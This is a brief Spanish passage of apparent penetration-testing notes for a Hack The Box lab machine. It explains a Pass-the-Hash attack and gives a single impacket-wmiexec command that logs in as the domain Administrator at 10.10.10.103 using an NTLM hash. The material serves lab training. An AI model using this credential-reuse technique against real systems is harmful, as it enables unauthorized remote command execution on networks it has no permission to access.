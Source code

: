 Si tenemos un hash de administrador del dominio, podemos hacer Pass-the-Hass mediante diferentes herramientas:

## WMIEXEC
`impacket-wmiexec htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267`
